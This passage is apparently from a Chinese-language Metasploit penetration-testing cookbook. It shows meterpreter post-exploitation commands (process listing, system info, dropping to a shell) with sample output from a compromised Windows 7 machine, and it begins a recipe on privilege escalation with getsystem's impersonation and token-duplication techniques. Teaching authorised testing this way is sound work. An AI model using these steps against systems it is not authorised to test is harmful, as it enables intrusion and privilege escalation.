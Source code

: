 +   ps：此命令将列出目标机器上所有正在运行的进程。此命令有助于识别目标上运行的各种服务和软件。

```
    meterpreter > ps
    PID Name Arch Session User
    --- ---- ------- ----
    0 [System Process]
    1072 svchost.exe
    1172 rundll32.exe x86 1 DARKLORD-PC\DARKLORD 
    ```

+   sysinfo：这是一个方便的命令，可以快速验证系统信息，如操作系统和架构。

```
    meterpreter > sysinfo
    Computer : DARKLORD-PC
    OS : Windows 7 (Build 7264).
    Architecture : x86
    System Language : en_US
    Meterpreter : x86/win32 
    ```

+   shell：此命令将我们带入一个 shell 提示符。我们已经在一些先前的配方中看到了这个 meterpreter 命令的用法。

```
    meterpreter > shell
    Process 4208 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7264]
    Copyright (c) 2009 Microsoft Corporation. All rights reserved. 
    ```

+   退出：此命令用于终止 meterpreter 会话。此命令也可用于终止 shell 会话并返回到 meterpreter。

这些是一些有用的系统命令，可用于探索受损目标以获取更多信息。还有许多其他命令，我留给您去尝试和探索。您可能已经注意到，使用 meterpreter 命令并探索目标是多么容易，而如果没有它，这将是一项困难的任务。在我们的下一个配方中，我们将专注于一些高级的 meterpreter 命令。

## 工作原理...

Meterpreter 的工作方式类似于任何命令解释器。它旨在通过命令理解和响应各种参数调用。它驻留在被利用/受损的进程的上下文中，并与渗透测试人员的机器创建客户端/服务器通信系统。

![工作原理...](img/7423_05_02.jpg)

前面的图表简要展示了 meterpreter 的功能。一旦建立通信通道，我们就可以向 meterpreter 服务器发送命令调用，以便将其响应发送回我们的机器。随着本章的深入，我们将更详细地了解渗透测试机器与受损目标之间的通信。

# 特权升级和进程迁移

在这个配方中，我们将专注于 meterpreter 的两个非常有用的命令。第一个是**特权升级**。此命令用于提升目标系统上的权限/权限。我们可能以较低权限的用户身份进入系统。因此，我们可以提升我们的特权以成为系统管理员，以便在执行任务时不受干扰。第二个命令是**进程迁移**。此命令用于在不在磁盘上写入任何内容的情况下从一个进程迁移到另一个进程。

## 如何做...

为了提升我们的特权，meterpreter 为我们提供了`getsystem`命令。此命令会自动开始寻找各种可能的技术，通过这些技术，用户的权限可以提升到更高级别。让我们分析`getsystem`命令使用的不同技术：

```
meterpreter > getsystem -h
Usage: getsystem [options]
Attempt to elevate your privilege to that of local system.
OPTIONS:
-t <opt> The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)